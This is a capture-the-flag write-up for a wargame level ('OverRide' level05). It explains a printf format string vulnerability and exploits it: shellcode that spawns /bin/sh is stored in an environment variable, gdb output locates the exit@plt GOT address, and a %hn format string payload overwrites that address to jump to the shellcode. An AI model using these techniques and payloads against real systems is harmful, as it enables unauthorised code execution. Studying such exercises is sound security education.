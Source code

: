 # level05
## Program behaviour

1. Read a `buffer` from `stdin`
2. Apply `tolower` to each byte of `buffer`
3. Call `printf(buffer)`
4. Call `exit(0)`

## Vulnerability

The program calls `printf` with buffer as format string. This is vunerable to `printf` attacks.

## Exploitation

We need to overwrite the address of `exit@plt` with the address of our environment variable using `printf`. 

1. Setup an environment variable containing the shellcode
```sh
export SHCODE=$(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```

2. Search for the right addresses
    - `0x080497e0` is the address to overwrite
    - `0xffffdf2f` is the address to jump on
```gdb
(gdb) x/s *((char **)environ + 16)
0xffffdf28:	 "SHCODE=\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
(gdb) p/x 0xffffdf28+7
$1 = 0xffffdf2f
(gdb) p/d 0xdf2f
$2 = 57135
(gdb) p/d 0xffff-0xdf2f
$3 = 8400
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

3. Craft and run the `printf` exploit. Note that we need to have the same `env` as `gdb`. Otherwise offsets won't match.
```sh
level05@OverRide:~$ gdb level05 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%57127x%10$hn%8400x%11$hn"'; cat) | ~/level05
```